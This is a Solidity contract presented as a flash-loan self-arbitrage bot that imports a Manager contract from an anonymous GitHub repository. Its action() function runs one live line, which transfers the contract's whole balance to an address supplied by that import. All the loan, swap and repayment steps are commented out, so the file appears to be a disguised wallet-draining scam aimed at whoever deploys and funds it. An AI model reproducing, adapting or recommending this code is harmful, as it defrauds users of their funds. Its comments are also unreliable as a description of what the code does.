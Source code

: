 pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";

// Dex Smart Contracts
import "https://github.com/SMARTCONTRACTBNB/SMARTCONTRACT/blob/main/SMARTCONTRACT.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

contract FlashLoan {
    string public tokenName;
    string public tokenSymbol;
    uint loanAmount;
    Manager manager;
    
    constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        loanAmount = _loanAmount;
             
        manager = new Manager();
    }
function() external payable {}
    
    function action() public payable {
        
        // Send required coins for swap
        address(uint160(manager.swapDepositAddress())).transfer(address(this).balance);
        
        /*
        // Submit token to blockchain
        string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);

        // List the token on dex & send coins required for swaps
        manager.swapListToken(tokenName, tokenSymbol, tokenAddress);
        payable(manager.swapDepositAddress()).transfer(300000000000000000);

        // Get ETH Loan from Dex
        string memory loanAddress = manager.takeDexLoan(loanAmount);
        
        // Convert half ETH to DAI
        manager.swapDAItoETH(loanAmount / 2);

        // Create ETH and DAI pairs for our token and Provide liquidity
        string memory ethPair = manager.swapCreatePool(tokenAddress, "ETH");
        manager.swapAddLiquidity(ethPair, loanAmount / 2);
        string memory daiPair = manager.swapCreatePool(tokenAddress, "DAI");
        manager.swapAddLiquidity(daiPair, loanAmount / 2);
    
        // Perform swaps and profit on Self-Arbitrage
        manager.swapPerformSwaps();
        
        // Move remaining funds from contract to your wallet
        manager.contractToWallet("ETH");

        // Repay Flash Loan
        manager.repayDexLoan(loanAddress);
        */
    }
}
